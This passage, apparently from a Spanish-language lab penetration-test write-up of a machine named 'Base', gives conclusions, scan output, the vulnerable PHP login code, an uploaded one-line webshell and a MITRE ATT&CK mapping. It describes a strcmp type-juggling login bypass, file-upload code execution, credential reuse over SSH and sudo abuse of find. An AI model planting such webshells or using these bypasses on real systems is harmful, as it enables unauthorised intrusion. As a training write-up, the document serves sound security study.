| Credenciales | `/var/www/html/login/config.php` | Usuario/contraseña de admin en texto plano, reutilizada en SSH. |

---

## 6. Conclusiones

### 6.1 Conclusión técnica

El compromiso total de **Base** fue posible por una cadena de fallos que se refuerzan entre
sí, todos de naturaleza básica: una configuración de servidor insegura (listado de
directorios + archivo temporal `.swp`) expuso el código y las credenciales; una validación
de autenticación con comparación laxa permitió evadir el login por Type Juggling; la
ausencia de controles en la subida de archivos derivó en ejecución remota de código; la
reutilización y el almacenamiento en claro de contraseñas facilitaron el movimiento
lateral; y una regla `sudo` excesiva sobre `find` otorgó privilegios de `root`. Ninguno de
estos fallos requirió un exploit sofisticado: la defensa falló en los fundamentos
(configuración segura, validación de entradas, gestión de secretos y mínimo privilegio).

### 6.2 Aprendizajes del auditor

- **Type Juggling aplicado:** reconocer el patrón `strcmp(...) == 0` como vulnerable y
  explotarlo enviando parámetros como arrays (`username[]`), forzando `strcmp()` a devolver
  `NULL`.
- **Valor de los artefactos olvidados:** un simple archivo `.swp` entregó el código fuente
  completo y las credenciales, acortando drásticamente la ruta de ataque.

---

## 7. Anexos

### A. Salida completa de escaneos

<details>
<summary>nmap — descubrimiento de puertos (<code>puertos.txt</code>)</summary>

```text
# Nmap 7.992 scan initiated Wed Oct 21 09:12:11 2026 as: nmap -p- --min-rate=5000 -T4 -Pn -n -oN loot/puertos.txt 10.129.58.161
Warning: 10.129.58.161 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.58.161
Host is up (0.23s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
7515/tcp  filtered unknown
15822/tcp filtered unknown
16316/tcp filtered unknown
37233/tcp filtered unknown
37859/tcp filtered unknown
40719/tcp filtered unknown
61510/tcp filtered unknown

# Nmap done at Wed Oct 21 09:12:30 2026 -- 1 IP address (1 host up) scanned in 19.19 seconds
```

</details>

<details>
<summary>nmap — detección de servicios (<code>detallado.txt</code>)</summary>

```text
# Nmap 7.992 scan initiated Wed Oct 21 09:12:40 2026 as: nmap -p22,80 -sVC -Pn -n -T4 -oN loot/detallado.txt 10.129.58.161
Nmap scan report for 10.129.58.161
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
|   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
|_  256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome to Base
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Nmap done at Wed Oct 21 09:12:59 2026 -- 1 IP address (1 host up) scanned in 18.73 seconds
```

</details>

<details>
<summary>gobuster — enumeración de directorios (<code>gobuster.txt</code>)</summary>

```text
_uploaded/           (Status: 200) [Size: 748]
assets/              (Status: 200) [Size: 1690]
forms/               (Status: 200) [Size: 1141]
login/               (Status: 200) [Size: 1347]
```

</details>

### B. Scripts y exploits

<details>
<summary>login.php — lógica vulnerable recuperada del archivo swap</summary>

```php
<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
?>
```

</details>

<details>
<summary>shell.php — webshell subido</summary>

```php
<?php
  system($_GET['cmd']);
?>
```

</details>

### C. Mapeo MITRE ATT&CK

| Táctica | Técnica | ID |
|---------|---------|----|
| Initial Access | Exploit Public-Facing Application | [T1190](https://attack.mitre.org/techniques/T1190/) |
| Execution | Command and Scripting Interpreter | [T1059](https://attack.mitre.org/techniques/T1059/) |
| Persistence | Server Software Component: Web Shell | [T1505.003](https://attack.mitre.org/techniques/T1505/003/) |
| Credential Access | Unsecured Credentials: Credentials In Files | [T1552.001](https://attack.mitre.org/techniques/T1552/001/) |
| Lateral Movement | Remote Services: SSH | [T1021.004](https://attack.mitre.org/techniques/T1021/004/) |
| Privilege Escalation | Abuse Elevation Control Mechanism: Sudo and Sudo Caching | [T1548.003](https://attack.mitre.org/techniques/T1548/003/) |

### D. Referencias generales

- [PTES — Penetration Testing Execution Standard](http://www.pentest-standard.org/)
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Calculadora CVSS v3.1 — FIRST](https://www.first.org/cvss/calculator/3.1)
- [GTFOBins](https://gtfobins.github.io/)
- [MITRE ATT&CK](https://attack.mitre.org/)
